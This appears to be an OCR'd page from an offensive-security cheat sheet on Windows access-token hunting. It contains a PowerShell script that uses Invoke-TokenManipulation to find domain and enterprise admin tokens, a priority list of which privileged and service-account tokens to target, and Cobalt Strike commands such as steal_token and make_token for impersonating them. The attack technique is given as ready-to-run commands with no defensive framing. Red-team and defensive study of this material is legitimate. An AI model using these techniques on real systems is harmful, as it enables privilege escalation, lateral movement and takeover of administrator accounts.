 ## Token Hunting Strategies

### PowerShell Token Hunting Script
```powershell
# Script to hunt for valuable tokens
function Hunt-Tokens {
    $tokens = Invoke-TokenManipulation -ShowAll
    $highValueUsers = @("administrator", "domain admin", "enterprise admin", "backup operators")
    
    foreach ($token in $tokens) {
        foreach ($user in $highValueUsers) {
            if ($token -like "*$user*") {
                Write-Host "[+] High-value token found: $token" -ForegroundColor Green
            }
        }
    }
}

Hunt-Tokens
```

### Token Priority Matrix
```bash
# Priority 1: Domain Admin Tokens
DOMAIN\Administrator
DOMAIN\DA-Account
ENTERPRISE\EnterpriseAdmin

# Priority 2: Local Admin Tokens  
NT AUTHORITY\SYSTEM (if not already have)
MACHINE\Administrator
Backup Operators

# Priority 3: Service Account Tokens
SQL Service accounts
IIS Application Pool accounts
Exchange service accounts

# Priority 4: Regular User Tokens
Standard domain users
Local users with limited rights
```

## Advanced Token Techniques

### Token Stealing with Cobalt Strike
```bash
# Steal token from specific process
steal_token <pid>

# Make token for specific user (if you have credentials)
make_token domain\user password

# List current token
getuid

# Revert to original token
rev2self
```
